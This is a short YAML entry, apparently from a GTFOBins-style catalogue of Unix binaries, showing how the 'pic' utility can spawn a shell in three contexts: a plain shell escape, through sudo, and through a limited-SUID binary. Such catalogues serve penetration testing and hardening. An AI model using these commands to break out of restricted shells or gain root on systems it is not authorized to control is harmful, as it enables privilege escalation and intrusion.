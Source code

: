 ```yaml
---
name: pic
functions:
  shell:
    - code: |
        pic -U
        .PS
        sh X sh X
  sudo:
    - code: |
        sudo pic -U
        .PS
        sh X sh X
  limited-suid:
    - code: |
        ./pic -U
        .PS
        sh X sh X
---
```

